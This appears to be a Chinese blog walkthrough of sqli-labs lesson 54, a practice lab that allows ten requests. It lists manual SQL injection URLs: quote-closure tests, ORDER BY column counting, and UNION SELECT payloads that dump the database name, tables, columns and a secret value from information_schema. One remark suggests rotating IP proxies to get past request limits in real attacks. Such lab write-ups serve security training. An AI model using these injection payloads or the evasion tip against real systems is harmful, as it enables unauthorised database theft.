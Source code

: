 ```yaml
---
title: sqli-labs lession-54 GET-Union-变化1-仅允许10次请求
date: 2018-11-21 14:08:44
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs lession-54 GET-Union-变化1-仅允许10次请求

---

## 手注

`http://10.60.17.35:8082/Less-54/index.php?id=1+and+1=2%23`

`http://10.60.17.35:8082/Less-54/index.php?id=1'+and+1=2%23`

通过上述可以判断出是字符型,并且猜测闭合点为单引号成功。



`http://10.60.17.35:8082/Less-54/index.php?id=1'+order+by+4%23`

通过`order by`猜测字段数

![001](/img/sql/Lesson-54/001.png)

![002](/img/sql/Lesson-54/002.png)

可以发现到这里已经尝试了6次了,实战环境中还需要更换ip代理或浏览器来扩大测试。

`http://10.60.17.35:8082/Less-54/index.php?id=id=-1'+union+select+1,(database()),user()%23`

![003](/img/sql/Lesson-54/003.png)

`http://10.60.17.35:8082/Less-54/index.php?id=-1'+union+select+1,(select+group_concat(table_name)from+information_schema.TABLES+WHERE+TABLE_schema='challenges'),user()%23`

![004](/img/sql/Lesson-54/004.png)

`http://10.60.17.35:8082/Less-54/index.php?id=-1'+union+select+1,(select+group_concat(column_name)from+information_schema.columns+WHERE+TABLE_schema='challenges'+and+table_name='vylco793d1'),user()%23`

![005](/img/sql/Lesson-54/005.png)

`http://10.60.17.35:8082/Less-54/index.php?id=-1'+union+select+1,(select+GROUP_CONCAT(secret_VIY1)from challenges.vylco793d1),user()%23`

![006](/img/sql/Lesson-54/006.png)

提交通过。

![007](/img/sql/Lesson-54/007.png)



